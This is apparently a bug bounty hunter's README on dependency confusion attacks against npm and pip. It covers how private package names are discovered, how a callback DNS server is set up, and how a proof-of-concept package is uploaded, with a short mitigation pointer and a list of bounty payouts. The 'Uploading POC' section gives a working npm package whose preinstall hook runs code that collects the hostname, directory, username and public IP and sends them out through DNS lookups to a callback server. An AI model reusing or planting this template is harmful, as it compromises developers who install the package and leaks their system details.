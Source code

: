 # All About Dependency Confusion Attack, (Detecting, Finding, Mitigating)

## Table of content:

- [About dependency confusion attack](#about-dependency-confusion-attack)
- [How npm works and understanding package system, version, scope packages, etc.](#how-npm-and-similar-package-system-work-and-understanding-its-structure-and-more)
- [Detecting private package](#detect-private-pip-and-npm-packages)
- [Automation with bash](#automating-with-bash-to-find-private-packages)
- [Manual Hunting](#manual-hunting-to-find-more-packages)
- [Setting up bind9 DNS server](#setting-up-bind9-dns-server)
- [Uploading POC](#uploading-poc)
- [Mitigation](#mitigation)
- [Bounty Transparency](#bounty-transparency)



## About dependency confusion attack:
When you put `pip install -r requirements.txt` in your terminal did you check the package that you currently installing is not in the public repository? Or did someone put a backdoor on this package that you install blindly? How do you trust pypi? Is there anything that can harm your machine which is protected by firewall? 
Well, you might wonder how you can easily get hacked for running this command in your terminal! I'm not going to explain how this occurs, there is a great article about [Dependency Confusion](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) by [alex birsan](https://twitter.com/alxbrsn)! But I can't resist giving you a simple explanation about the dependency confusion attack! 
Suppose you had a project called `A` which completely depends on react packages as you might hear of some third-party react component packages that are currently used by lots of companies for their development process, (for example `react-router`) which means your current project heavily depends on some third-party module! Now Imagine you got a new job at this company and your previous colleague didn’t tell you about his project but did give you a file called `package.json` with a bunch of js files and you know what to do with that just simple command `npm -i` and You're good to go. But did you know that there might be some private packages that your senior developer didn’t allow you to disclose in public? So what will happen when you put `npm -i` in your terminal if this package is claimed by a malicious actor? Yeah, that's the simple explanation of dependency confusion attack!


## How npm and similar package system work and understanding its structure and more:

npm stands for node package manager which is used for storing your project dependency as public. But npm also allows you to install packages from your local package manager which is private, which means these packages are restricted from public users, just an internal user or specific traffic can install these packages for development purposes! And also these packages didn’t exist in public npm [registry](https://registry.npmjs.com), this works fine until you accidentally forget to mention the install path in your cli file.
but in pip, these are completely different as pip checks for higher versions if you put the `--extra-index` flag for your installation, like if you put `--extra-index` when you install pip packages through your terminal eg:`pip install -r requirements.txt --extra-index-url` then pip will first check which repository contains a higher version of this package. if pip sees that your local registry contains a higher version then pip will install this instead of a public one. Now imagine you accidentally leak your private pip package name Through github repo and attacker claim these packages and includes 2000.0.0 as the package version but in your local registry this package version is like 2.0.1 what will happen? well, pip priorities a higher version if you include the `--extra-index-url` flag so pip will install this package from a public instead of a private repository, as pip sees this version is higher than your local version. You can read how pip works in this blog [post](https://realpython.com/what-is-pip/), also if you want to read how the version work in npm please read this [article](https://stackoverflow.com/questions/22343224/whats-the-difference-between-tilde-and-caret-in-package-json).as my research is ongoing on other package system so I can't tell you enough for this! I will add them here.


## Detect private pip and npm packages:

This is so easy for npm normal packages, just visit `https://npmjs.com/package/YOUR-PACKAGE-NAME-HERE` and for scope packages, let me tell you what is exactly it means 'if you have seen an npm package name like this `@test/example-packages` that means every package are started with `@` and divided by `\` the first part of `\` is scopes name and the second part is actual packages name so if you found this type of package name in your finding, you have to check whether this scope name is claimed in a public repository or not, for that visit this `https://npmjs.com/org/SCOPE-NAMES-HERE` if this shows you 404 that's means this is unclaimed scope name! So for uploading POC packages on npmjs, you have to create an org name first then update this name to your package.json file like this `@org/package-name-here`, and for pip just [visit](https://pypi.org/)



## Automating with bash to find private packages:

*warning: BE AWARE OF FALSE POSITIVE, CONFIRM YOUR FINDING MANUALLY*

Download this `npm-automation.sh` file and run this command in your terminal `bash automate-bash.sh <target domain>` make sure you have installed [tomnomnom's waybackurls](https://github.com/tomnomnom/waybackurls) and [hacker_'s gau](https://github.com/lc/gau) in your machine.



## Manual hunting to find more packages:

- Using Github:
in GitHub you can visit every repo to see if there is any of these filenames exist, like for npm `package.json`,`yarn.lock`,`package-lock.json`,`yarn-error.log`. For pip `requirements.txt`, `requirement-dev.txt`,`requirement-prod.txt`. 
- Using Devtools:
open your firefox browser and visit your target domain/subdomain ==> right click ==> inspect ==> go to `Debugger` ==> try to find `Webpack` directory (if your target used webpack, otherwise you may not see anything) ==> in `Webpack` directory you will see `node_modules` folder and every subfolder name of `node_modules` folder is actually an npm package.
- JS file:
js file is so boring to read, but if you already know what an npm package name looks like, you may able to spot them within js file. (this needs practice)



## Setting-up bind9 DNS server:
follow these videos and repo
[Github repo](https://github.com/JuxhinDB/OOB-Server)
[DigitalOcean + Namecheap](https://www.youtube.com/watch?v=iMSqT9MZbQs),
[AWS + Godaddy](https://www.youtube.com/watch?v=p8wbebEgtDk),


## Uploading POC:
please follow this [video](https://youtu.be/GJSvEAJeqko) on my youtube channel.

in this folder `src/poc`, edit `index.js` file. replace `niroborg-npm-com-test` with your target package name. also `bind9-or-callback-server.com` to your callback DNS server.
```javascript
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;echo 'niroborg-npm-com-test';curl https://ifconfig.me;) && echo $a | xxd -p | head | while read ut;do nslookup $a.bind9-or-callback-server.com;done" , (error, data, getter) => {
	if(error){
		console.log("error",error.message);
		return;
	}
	if(getter){
		console.log(data);
		return;
	}
	console.log(data);
	
});
```
and in `package.json` file, replace `test-npm-com-test` with your target package name. then define the version name. it is recommended that you should upload multiple package versions when you upload the npm package because npm uses a special version system. [read more](https://stackoverflow.com/questions/22343224/whats-the-difference-between-tilde-and-caret-in-package-json)
```json
{
  "name": "test-npm-com-test",
  "version": "1.999.0",
  "description": "",
  "main": "main.js",
  "scripts": {
    "preinstall": "node index.js > /dev/null 2>&1",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "lexi2",
  "license": "ISC",
  "dependencies": {
    "lodash": "^4.17.21"
  }
}

```

## Mitigation:
Scan your project dependency with [confused](https://github.com/visma-prodsec/confused) by [@visma-prodsec](https://github.com/visma-prodsec)

(I have my own scanner just for npm, and I think [confused](https://github.com/visma-prodsec/confused) is really cool as they add a bunch of other package managers for scanning)
## Bounty Transparency:
- $2000 from Shein (goes public)
- $2000 from an outside bug bounty program (closed)
- $1500 from Bugcrowd private program (closed)
- $1250 from Bugcrowd private program (ongoing)
- $1000 from an outside bug bounty(self-hosted)
- $1000 from Comcast Cable. (closed)
- $700 from an outside bug bounty program(self-hosted)
- $500 from an outside bug bounty program(self-hosted)
- $250 from Bugcrowd private program (closed)
## Shoutouts:
- [@alxbrsn](https://twitter.com/alxbrsn) for his amazing [research](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) , without his research, nothing would have been possible.
- [@Stok](https://twitter.com/stokfredrik) for his amazing [video](https://www.youtube.com/watch?v=p8wbebEgtDk) about setting-up bind9 dns server (using GoDaddy + aws)
- [@juxhindb](https://twitter.com/juxhindb) for his amazing github [repo](https://github.com/JuxhinDB/OOB-Server)
- [@nigamelastic](https://twitter.com/nigamelastic) for his amazing [video](https://www.youtube.com/watch?v=iMSqT9MZbQs) about setting-up bind9 dns server(using Namecheap + digitalocean)
- [@tomnomnom](https://twitter.com/tomnomnom) for his powerful archive URL fetching tool [waybackurls](github.com/tomnomnom/waybackurls)
- [@hacker_](https://twitter.com/hacker_) for his powerful archive URL fetching tool [gau](github.com/lc/gau)
- [@visma-prodsec](https://github.com/visma-prodsec) for their powerfull dependency scanner [confused](https://github.com/visma-prodsec/confused)

## Useful?

<a href="https://buymeacoff.ee/x1337loser" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

<a href="https://archive.org/donate">Donate to the InternetArchive</a>
